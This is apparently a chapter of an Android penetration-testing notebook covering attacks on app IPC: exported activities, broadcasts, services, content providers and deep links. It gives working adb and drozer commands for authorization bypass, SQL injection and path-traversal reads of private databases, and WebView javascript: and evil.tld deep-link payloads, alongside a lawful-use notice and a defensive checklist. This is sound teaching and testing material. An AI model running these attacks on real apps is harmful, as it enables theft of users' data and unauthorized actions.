

This is Chapter 6 of the Mobile & IoT notebook. Chapter 3 catalogued the app's **exported components** from the manifest; Chapters 4–5 gave you the runtime tools to get inside. This chapter weaponises that catalogue. Android apps are not islands — they talk to each other, and to the web, through a rich inter-process communication (IPC) system built on **Intents**, the four **components**, and **Binder** underneath. Every piece of that surface an app exposes to *other apps* (or to a web link) is something a malicious app or a crafted URL can poke. This is the classic "an app on the same device attacks the target app" threat model, and it's where a large share of Android CVEs and bug-bounty reports live.

We'll build the IPC model, then walk each attack surface — exported activities, broadcasts, services, and the perennially-vulnerable **Content Providers** — and finish with **deep links / App Links**, where the entry point comes from a URL the victim taps. Everything ties back to the manifest read you already did.

**Lawful use:** attack only components of apps you own or are authorised to test, and the training targets named at the end. A malicious app that abuses another app's IPC on a victim's device is a real crime outside a lab.

---

## Part 1: Android IPC and the Intent Model

Android processes are sandboxed (Chapter 1): each app runs as its own UID and can't touch another's memory directly. They cooperate through **Binder**, the kernel IPC mechanism, almost always wrapped in a higher-level abstraction: the **Intent**.

An **Intent** is a message describing an operation to perform. Two flavours:

- **Explicit intent** — names the exact target component (`setClassName("com.example.app", "com.example.app.PayActivity")`). Used for internal navigation; not directly reachable cross-app unless the target is exported.
- **Implicit intent** — describes an *action* + *data* (e.g., `ACTION_VIEW` on a `https://` URI) and lets the system pick a component whose **intent-filter** matches. This is how deep links, "share" sheets, and "open with" work — and it's the crux of the attack surface, because *any* app can fire an implicit intent that matches your filters.



The security-critical property: **an exported component runs inside the target app's process, with the target's UID and permissions.** So if you can invoke it with attacker-controlled data, you're acting *as the target app*. That's why exported components matter.

**Exported or not?** A component is reachable cross-app if `android:exported="true"`, **or** — pre-Android 12 only — implicitly if it declares any `<intent-filter>` and doesn't set `exported`. From Android 12 (targetSdk 31+), any component with an intent-filter **must** declare `exported` explicitly, which closed a huge class of accidental exposure. Providers historically defaulted to exported on very old `targetSdk`. Always confirm with the decoded manifest and `adb shell dumpsys package`.

---

## Part 2: Tooling for IPC Testing

Three tools cover everything here:

**`adb` `am` (activity manager)** — fire intents from the shell as if another app did:

```bash
adb shell am start -n com.example.app/.PayActivity                     # start an exported activity
adb shell am start -a android.intent.action.VIEW -d "exampleapp://pay?amount=1"  # implicit / deep link
adb shell am broadcast -a com.example.app.ACTION_SYNC --es token "x"    # send a broadcast
adb shell am startservice -n com.example.app/.SyncService              # start a service (older API)
```

**`adb` `content`** — talk to Content Providers directly:

```bash
adb shell content query --uri content://com.example.app.provider/users
adb shell content query --uri content://com.example.app.provider/users --where "name='a' OR '1'='1'"
```

**drozer** — the classic Android IPC attack framework. It enumerates exported components across all apps and provides modules to invoke and fuzz them. Run its agent app on the device and connect from your host:

```bash
adb forward tcp:31415 tcp:31415
drozer console connect
# then:
run app.package.attacksurface com.example.app         # what's exported
run app.activity.info -a com.example.app              # exported activities
run app.provider.info -a com.example.app              # exported providers
run scanner.provider.injection -a com.example.app     # auto-test provider SQLi
run scanner.provider.traversal -a com.example.app     # auto-test provider path traversal
```

drozer is the fastest way to map and auto-test the surface; `am`/`content` are the surgical follow-up.

---

**Intent-extra flags for `am` (attacker-controlled input to a component):**

| Flag | Type | Example |
| --- | --- | --- |
| `--es` | String | `--es role admin` |
| `--ei` | int | `--ei amount 1000` |
| `--ez` | boolean | `--ez isPremium true` |
| `--el` | long | `--el ts 0` |
| `--eu` | URI | `--eu url https://evil.tld` |
| `-a` / `-d` / `-n` | action / data URI / component | `-a VIEW -d exampleapp://x` |

## Part 3: Exported Activities — Abuse & Task Hijacking

An exported activity can be launched by any app. Attacks:

**Reaching internal/privileged screens directly.** Apps sometimes gate a screen behind a login flow but leave the *destination* activity exported. Launch it directly and skip the gate:

```bash
adb shell am start -n com.example.app/.admin.AdminPanelActivity
adb shell am start -n com.example.app/.PostLoginDashboard --ez isPremium true --es role admin
```

If `AdminPanelActivity` reads `getIntent().getBooleanExtra("isPremium", false)` and trusts it, you just granted yourself premium — an **authorization bypass via intent extra**. This is common: the activity trusts data that a co-located malicious app fully controls.

**Intent extra injection into logic.** Extras (`--es` string, `--ei` int, `--ez` bool, `--eu` uri) are attacker-controlled. If an exported activity uses an extra to decide what to load, load a URL in a WebView, or pick a file, you control it. Trace `getIntent().get*Extra()` in jadx to find sinks.

**Task hijacking / StrandHogg-class.** Using `taskAffinity` and launch modes, a malicious app can insert its activity into the target's task stack so its (phishing) screen appears when the user opens the target — a UI-redress/credential-phishing vector. Mitigated by setting `taskAffinity=""` and `android:launchMode`/`FLAG_ACTIVITY_NEW_TASK` hygiene, and largely constrained on newer Android, but still worth checking on apps with sloppy affinity.

**PendingIntent hijacking.** A mutable `PendingIntent` handed to another component can be filled in by an attacker to redirect an action with the target's identity. Look for `PendingIntent.getActivity(...)` without `FLAG_IMMUTABLE`.

---

## Part 4: Broadcast Receivers — Injection & Theft

Broadcast receivers respond to system or app events. Exported receivers create two symmetric bugs:

**Broadcast injection.** If a receiver is exported and acts on the broadcast's data without checking the sender, any app can send a forged broadcast to trigger the action:

```bash
adb shell am broadcast -a com.example.app.ACTION_RESET_PIN --es user "victim" --es pin "0000"
adb shell am broadcast -n com.example.app/.CommandReceiver --es cmd "wipe"
```

If `CommandReceiver` performs a privileged action (reset a PIN, mark a transaction, trigger a sync with attacker data) based on the extras, that's a real vuln.

**Broadcast theft / eavesdropping.** If the target app *sends* a sensitive **implicit** broadcast (e.g., contains a token) without restricting the recipient, a malicious app registers a receiver for that action and steals the data. The fix — and thus the thing to check — is whether sensitive broadcasts are sent with an explicit component, a signature permission, or via `LocalBroadcastManager`/scoped alternatives.

**Sticky/ordered broadcast abuse** — an ordered receiver with high priority can intercept and mutate a broadcast before other receivers see it. Rare now but appears on legacy apps.

---

## Part 5: Services — Abuse of Exported Services

Exported services let other apps bind or start them. Risks:

- **Started services** (`startService`) that perform actions from intent extras — same injection story as receivers. `adb shell am startservice -n com.example.app/.ExportedService --es action doThing`.
- **Bound services / AIDL** — an exported service exposing an AIDL interface is a full remote API into the app. A malicious app binds and calls the exposed methods with the *service's* privileges. Enumerate the AIDL methods (jadx) and check whether any perform sensitive operations without caller verification (`checkCallingPermission`, `getCallingUid`).
- **Messenger-based services** — similar; look for unauthenticated command handling in `handleMessage`.

The defensive control here is caller verification: a secure service checks `Binder.getCallingUid()`/permissions before acting. Its absence is the bug.

---

## Part 6: Content Providers — the Richest Surface

Content Providers expose structured data via `content://` URIs and are historically the most vulnerable IPC component. Three classic bug classes:

```mermaid
flowchart TD
    P[Exported Content Provider] --> A[query() builds SQL from selection]
    A -->|unsanitised| SQLi[SQL injection: read other tables]
    P --> B[openFile maps URI -> file path]
    B -->|no canonicalisation| Trav[Path traversal: read private files]
    P --> C[grantUriPermissions / weak perms]
    C -->|over-broad| Perm[Permission bypass: reach protected data]
```

**6.1 SQL injection in `query()`.** Many providers pass the `selection`/`projection` straight into a raw SQL query. Inject through the `--where` clause:

```bash
# Baseline
adb shell content query --uri content://com.example.app.provider/notes
# Boolean/OR injection to dump all rows regardless of intended filter
adb shell content query --uri content://com.example.app.provider/notes --where "1=1) OR (1=1"
# Discover other tables via UNION / sqlite_master (provider-dependent)
adb shell content query --uri content://com.example.app.provider/notes \
  --where "title = 'x' UNION SELECT name,sql FROM sqlite_master--"
```

drozer automates this: `run scanner.provider.injection -a com.example.app` sprays injection payloads and reports which URIs are vulnerable, and `run app.provider.query <uri> --selection "..."` follows up. A provider SQLi often means reading *another app user's* data or tables the provider never meant to expose — high severity.

**6.2 Path traversal in `openFile()`.** Providers that implement `openFile()` to serve files by mapping a URI segment to a filesystem path are vulnerable if they don't canonicalise. Request a traversal path to read the app's private files:

```bash
adb shell content read --uri "content://com.example.app.provider/../../databases/app.db" > loot.db
adb shell content read --uri "content://com.example.app.fileprovider/files/..%2f..%2fshared_prefs/creds.xml"
```

`run scanner.provider.traversal -a com.example.app` in drozer finds these. Reading the app's `databases/` or `shared_prefs/` from an *unprivileged* app is a serious confidentiality break.

**6.3 Permission & grant bypass.** A provider protected by a permission can still leak if it `grantUriPermissions`-es too broadly, or if a *second, unprotected* provider/path exposes the same data. Also check `FileProvider` `filepaths.xml` for over-broad `<root-path>`/`<external-path>` entries that expose more than intended.

---

**Exported component → primary attack, at a glance:**

| Component | Reached by | Primary attacks |
| --- | --- | --- |
| Activity | `am start -n` / implicit | direct-launch gated screen, extra injection, task/PendingIntent hijack |
| Broadcast Receiver | `am broadcast` | broadcast injection; theft of sensitive outgoing broadcasts |
| Service | `am startservice` / bind (AIDL) | unauthenticated action; AIDL abuse without caller check |
| Content Provider | `content query`/`read` | SQLi in `query()`, path traversal in `openFile()`, permission/grant bypass |

## Part 7: Deep Links & App Links — Attacks From a URL

Here the entry point isn't another app calling IPC directly — it's the victim **tapping a link** (in a browser, email, chat) that opens the target app. Two kinds:

- **Custom-scheme deep links** — `exampleapp://...`. Registered via an intent-filter with a custom `scheme`. **Any app can also register the same scheme**, and custom schemes are *not verified* — so they're inherently spoofable and untrusted input.
- **App Links (Android)** — `https://...` links that open the app directly, backed by **Digital Asset Links** (`/.well-known/assetlinks.json` on the domain) and `android:autoVerify="true"`. When verification succeeds, the OS trusts that the app owns the domain, so the scheme can't be hijacked. When `autoVerify` is missing or the assetlinks file is wrong, the "App Link" degrades to a disambiguation dialog and loses its guarantee.

**Attack 1 — scheme hijacking.** If the target uses a custom scheme for something sensitive (magic-login link, payment confirmation), a malicious app registering the same scheme can intercept the link and steal the token/parameters. Check whether sensitive flows ride an unverified custom scheme.

**Attack 2 — parameter injection into a WebView.** The most common deep-link bug: the app takes a URL/parameter from the deep link and loads it into a WebView, or uses it to build one:

```bash
# App opens whatever 'url' points to inside an in-app WebView:
adb shell am start -a android.intent.action.VIEW -d "exampleapp://open?url=https://evil.tld/phish"
# Trigger XSS/JS-bridge reach if the WebView has addJavascriptInterface:
adb shell am start -a android.intent.action.VIEW -d "exampleapp://open?url=javascript:alert(document.cookie)"
```

If the WebView has `setJavaScriptEnabled(true)` and an `addJavascriptInterface` bridge, deep-link-controlled content can call native methods — an **open-redirect-to-RCE-ish** chain. Trace the deep-link handler in jadx to the WebView `loadUrl` sink.

**Attack 3 — unvalidated deep-link parameters into app logic.** Same idea as intent-extra injection: a deep link like `exampleapp://transfer?to=attacker&amount=1000` that the app acts on without server-side authorization is an IDOR/CSRF-by-link.

**Attack 4 — OAuth/redirect abuse & account takeover.** If the app registers a redirect scheme for OAuth (`exampleapp://callback?code=...`) and another app can claim that scheme, or if the app doesn't validate `state`/PKCE, an attacker can steal the authorization code and take over the account. This is a recurring high-severity mobile bug: **check whether the OAuth redirect uses a verified App Link (not a spoofable custom scheme) and enforces PKCE + `state`.**

```mermaid
sequenceDiagram
    participant V as Victim
    participant Link as Malicious link
    participant OS as Android
    participant App as Target app
    V->>Link: taps exampleapp://open?url=...
    Link->>OS: implicit VIEW intent
    OS->>App: deep-link handler (unverified scheme)
    App->>App: loadUrl(url) in WebView (JS + bridge)
    Note over App: attacker JS runs with app's WebView/bridge
```

---

## Part 8: A Repeatable IPC Testing Methodology

1. **Enumerate the surface** from the decoded manifest (Ch3) and confirm at runtime: `drozer run app.package.attacksurface com.example.app`, and `adb shell dumpsys package com.example.app | grep -A2 -i exported`.
2. **Activities:** launch each exported activity directly (`am start -n`), fuzz extras (`--ez/--ei/--es`), and trace `getIntent()` sinks in jadx. Look for gated screens reachable directly and trusted extras.
3. **Receivers:** forge each exported broadcast (`am broadcast`) with crafted extras; check for sensitive *outgoing* implicit broadcasts you can steal.
4. **Services:** enumerate AIDL/started services; check for caller verification before privileged actions.
5. **Providers:** `content query`/`read` every exported URI; run drozer `scanner.provider.injection` and `scanner.provider.traversal`; try to read `databases/` and `shared_prefs/`.
6. **Deep links:** extract every scheme/host from intent-filters; test scheme hijacking, WebView param injection (`url=`, `javascript:`), logic injection, and OAuth redirect validation. Verify `autoVerify` + a correct `assetlinks.json`.
7. **Confirm impact server-side.** As always: a deep link that says `transfer?amount=1000` is only a vuln if the *server* executes it without its own authorization. Client-reachable != exploitable until the backend agrees.

---

## Part 9: Detection & Defense Angle

The defensive checklist an app team should enforce — most of these are one manifest attribute or one caller-check away:

- **Export nothing by default.** Set `android:exported="false"` on every component that doesn't *need* cross-app reach (mandatory-explicit since Android 12 — use it). This single habit removes most of this chapter's surface.
- **Protect necessary exports with `signature` permissions.** If only your own apps should call a component, guard it with a custom `signature`-level permission so unrelated apps can't.
- **Verify the caller in services/receivers.** Check `Binder.getCallingUid()`/`checkCallingPermission()` before acting; never trust intent extras for authorization decisions — treat every extra as attacker-controlled input.
- **Harden Content Providers.** Use parameterised queries (never concatenate `selection` into SQL), canonicalise and whitelist paths in `openFile()` (reject `..`), scope `FileProvider` roots tightly, and don't over-grant URI permissions.
- **Deep links: use verified App Links, validate everything.** Prefer `https://` App Links with `autoVerify` + a correct `/.well-known/assetlinks.json` over spoofable custom schemes for anything sensitive; never load a deep-link-supplied URL into a WebView without strict allow-listing; disable `addJavascriptInterface`/JS unless essential; and enforce **PKCE + `state`** on OAuth redirects.
- **WebView hygiene.** `setJavaScriptEnabled` only when needed, no `setAllowFileAccess`/`setAllowUniversalAccessFromFileURLs` unless required, and validate any URL before `loadUrl`.
- **Server-side authorization is the backstop.** Every IPC/deep-link action that changes state must be re-authorized by the backend. The durable defense is the same as the rest of the notebook: don't trust the client, even when the "client" is another one of your own components.

**Blue-team/detection angle:** exported-component abuse from a malicious app looks like unexpected callers invoking your components — you can log caller UIDs/packages on sensitive components and alert on unknown callers, and monitor backend endpoints for the "impossible" requests that a client-side bypass would produce.

---

## Final Revision / Summary

- Android apps expose an IPC surface via **Intents** (explicit vs implicit) and the four **components**, over **Binder**. An **exported** component runs with the *target app's* identity and permissions, so invoking it with attacker data means acting as the app.
- **Since Android 12, `exported` must be explicit** for components with intent-filters — a big reduction in accidental exposure, but legacy/low-targetSdk apps still leak.
- Tooling: **`am`** (fire intents/broadcasts/services), **`content`** (talk to providers), **drozer** (enumerate + auto-test the whole surface).
- **Activities:** direct-launch gated screens, inject trusted extras, watch for task/PendingIntent hijacking. **Receivers:** forge broadcasts (injection) and steal sensitive outgoing implicit broadcasts (theft). **Services:** unauthenticated AIDL/started-service actions.
- **Content Providers are the richest surface:** SQL injection via `query()` selection, path traversal via `openFile()`, and permission/grant bypass — drozer's `scanner.provider.*` automates discovery. Reading another user's rows or the app's `databases/`/`shared_prefs/` from an unprivileged app is high severity.
- **Deep links / App Links:** custom schemes are spoofable and untrusted; the big bugs are WebView parameter injection (`url=`, `javascript:`, JS bridges), unvalidated logic parameters, and **OAuth redirect/account-takeover** via unverified schemes or missing PKCE/`state`. Prefer verified `https://` App Links.
- **Confirm impact server-side.** Reachable is not exploitable until the backend acts on the request.

## Cheat Sheet / Quick Reference

```bash
# --- Enumerate ---
adb shell dumpsys package com.pkg | grep -iA2 exported
drozer console connect   # run app.package.attacksurface com.pkg

# --- Activities ---
adb shell am start -n com.pkg/.AdminActivity
adb shell am start -n com.pkg/.Dashboard --ez isPremium true --es role admin

# --- Broadcasts ---
adb shell am broadcast -a com.pkg.ACTION_RESET_PIN --es user victim --es pin 0000
adb shell am broadcast -n com.pkg/.CommandReceiver --es cmd wipe

# --- Services ---
adb shell am startservice -n com.pkg/.ExportedService --es action doThing

# --- Content Providers ---
adb shell content query --uri content://com.pkg.provider/users
adb shell content query --uri content://com.pkg.provider/users --where "1=1) OR (1=1"
adb shell content read  --uri "content://com.pkg.provider/../../databases/app.db" > loot.db
# drozer: run scanner.provider.injection -a com.pkg ; run scanner.provider.traversal -a com.pkg

# --- Deep links ---
adb shell am start -a android.intent.action.VIEW -d "exampleapp://open?url=https://evil.tld"
adb shell am start -a android.intent.action.VIEW -d "exampleapp://transfer?to=attacker&amount=1000"
# check autoVerify + https://<host>/.well-known/assetlinks.json ; OAuth: PKCE + state?
```

## Practice Labs & Resources

- **drozer's `sieve` target app** — the canonical Content Provider SQLi/traversal and exported-component lab; every technique in Parts 3–6 works on it.
- **DIVA** — "Insecure Data Storage" and exported-component challenges; direct-launch and provider exercises.
- **InsecureBankv2** — exported activities/receivers, deep-link and WebView issues.
- **OWASP MASTG "Android Platform APIs" / "Testing IPC"** chapters — the reference methodology for components, providers, and deep links.
- **Disclosed HackerOne/Bugcrowd mobile reports** on deep-link WebView injection and OAuth account-takeover — read several to internalise how these chain to impact.
- **Google's App Links + Digital Asset Links docs** — to understand what a *correct* verified link looks like (and thus what a broken one looks like).

In the next chapter we cross to the other platform: **iOS pentesting fundamentals** — jailbreaking vs no-jailbreak testing, the IPA and app sandbox, keychain and data protection, and how the same interception/instrumentation ideas translate to Apple's world.
